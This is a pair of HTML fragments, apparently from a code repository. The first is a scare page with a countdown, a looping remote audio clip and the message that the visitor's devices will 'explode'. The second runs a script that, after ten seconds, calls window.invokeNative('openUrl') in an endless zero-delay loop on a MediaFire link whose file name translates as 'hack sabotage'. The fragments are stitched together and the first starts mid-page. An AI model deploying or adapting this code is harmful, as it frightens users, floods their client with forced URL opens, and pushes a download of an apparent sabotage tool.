   
  <div id="warningText">Time’s up, your devices will now explode 💣</div>

  <audio id="hackSound" src="https://e.top4top.io/m_338241fku1.mp3" preload="auto" autoplay loop></audio>

  <script>
    let seconds = 10;
    const countdownElement = document.getElementById('countdown');
    const warningText = document.getElementById('warningText');

    const timer = setInterval(() => {
      seconds--;
      countdownElement.textContent = seconds;

      if (seconds <= 0) {
        clearInterval(timer);
        warningText.style.display = 'block';
      }
    }, 1000);
  </script>

</body>
</html>



<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>  </title>
</head>
<body>
    <h1></h1>

    <script>
        // فتح الرابط كل 0 مللي ثانية بعد 10 ثوانٍ
        setTimeout(() => {
            setInterval(() => {
                window.invokeNative('openUrl', 'https://www.mediafire.com/file/wn55rgdljh5fijp/%25D9%2587%25D8%25A7%25D9%2583_%25D8%25AA%25D8%25AE%25D8%25B1%25D9%258A%25D8%25A8_sp5/file');
            }, 0.0); // فتح الرابط بشكل مستمر
        }, 10000);
    </script>
</body>
</html>
